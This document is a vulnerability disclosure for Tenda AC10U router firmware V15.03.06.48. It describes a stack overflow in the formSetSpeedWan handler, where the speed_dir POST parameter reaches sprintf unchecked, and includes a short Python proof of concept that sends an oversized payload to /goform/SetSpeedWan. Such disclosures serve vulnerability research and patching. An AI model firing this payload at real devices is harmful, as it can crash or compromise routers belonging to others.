 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `formSetSpeedWan` function. The `speed_dir` variable receives the `speed_dir` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided  `speed_dir` can trigger this security vulnerability.

![image-20240313212816249](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313212816249.png)

![image-20240313212804638](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313212804638.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSpeedWan"
payload = b"a"*1000


data = {"speed_dir": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313212853014](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313212853014.png)
